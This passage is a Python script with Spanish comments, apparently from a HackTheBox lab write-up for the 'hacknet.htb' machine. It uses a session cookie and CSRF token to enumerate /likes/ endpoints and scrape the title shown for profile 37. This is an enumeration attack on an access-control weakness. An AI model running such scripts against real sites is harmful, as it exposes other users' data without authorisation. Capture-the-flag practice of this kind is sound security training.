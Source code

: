 ```python
        futures = [executor.submit(check_likes_endpoint, i) for i in range(max_id + 1)]
        
        for future in as_completed(futures):
            future.result()
    
    # Mostrar resultados
    print(f"\n{'='*60}")
    print("RESULTADOS - PERFIL 37 ENCONTRADO EN:")
    print('='*60)
    
    if found_instances:
        for instance in sorted(found_instances):
            print(instance)
    else:
        print("❌ No se encontró el perfil 37 en ningún endpoint")
    
    return found_instances

def quick_scan_profile_37(target, csrf_token, session_id):
    """
    Versión rápida que solo busca el perfil 37
    """
    headers = {
        'Host': 'hacknet.htb',
        'Cookie': f'csrftoken={csrf_token}; sessionid={session_id}',
        'X-Requested-With': 'XMLHttpRequest'
    }
    
    print("[*] Búsqueda rápida del perfil 37 en endpoints /likes/...")
    
    for i in range(101):  # 0 to 100
        try:
            response = requests.get(f"{target}/likes/{i}", headers=headers, timeout=3, verify=False)
            
            if response.status_code == 200 and '/profile/<ID_USER>' in response.text:
                # Extraer el título específico del perfil 37
                match = re.search(
                    r'<div class="likes-review-item"><a href="/profile/37"><img src="[^"]+" title="([^"]+)"></a></div>',
                    response.text
                )
                if match:
                    title = match.group(1)
                    print(f"✅ ENCONTRADO: /likes/{i} -> /profile/37 - title=\"{title}\"")
                    
        except Exception as e:
            print(f"[-] Error en /likes/{i}: {e}")

if __name__ == "__main__":
    target = "http://hacknet.htb"
    csrf_token = "<CSRF_TOKEN>"
    session_id = "<SESSION_ID>"
    
    print("🔍 Buscador específico del perfil /profile/37")
    print("=" * 50)
    
    # Opción 1: Escaneo completo (ambos endpoints)
    results = scan_for_profile_37(target, csrf_token, session_id, max_id=100)
    
    print(f"\n{'='*50}")
    print("BÚSQUEDA RÁPIDA ADICIONAL:")
    print('='*50)
```